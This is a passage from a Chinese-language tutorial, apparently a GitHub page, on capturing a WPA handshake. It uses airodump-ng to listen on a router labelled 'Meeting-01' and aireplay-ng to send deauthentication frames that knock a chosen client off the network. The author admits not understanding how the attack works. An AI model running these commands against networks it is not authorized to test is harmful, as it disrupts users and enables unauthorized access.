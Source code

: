    主要看三个参数：
   	
	- BSSID：路由器的MAC地址
	- PWR：信号值，绝对值越低，说明信号越强
	- CH：当前路由器使用的信道

4. 找一个信号比较强的WIFI进行监听，这里选择了Meeting-01，BSSID为：90:76:9F:81:C8:9A，使用的信道为11，输入命令，开始监听：


`
	airodump‐ng ‐‐bssid 90:76:9F:81:C8:9A ‐c 11 ‐w test wlan0mon`

	参数说明：
		–bssid：路由器的MAC地址
		-c：路由器使用的信道。（信道一定不要弄错）
		-w：抓取的握手包名称，可以选择输出的路径，这里使用默认输出路径为根目录

![](8.png)

下面是连接此WiFi的用户信息，BSSID，STATION等都可以看到。

5. 这个终端不要关，我们任选一个用户进行攻击，使其断开与路由器的连接。（原理没有深究，大概是向目标发送大量数据，使设备与路由器断开连接，停止攻击后，设备会自动连接上路由器，此时就可以抓取到握手包。）

	`aireplay‐ng ‐0 10 ‐a 90:76:9F:81:C8:9A ‐c 42:C7:0A:57:0B:E4 wlan0mon`

		参数说明：
			-0：指定对目标进行攻击的次数
			-a：路由器的MAC地址
			-c：目标MAC地址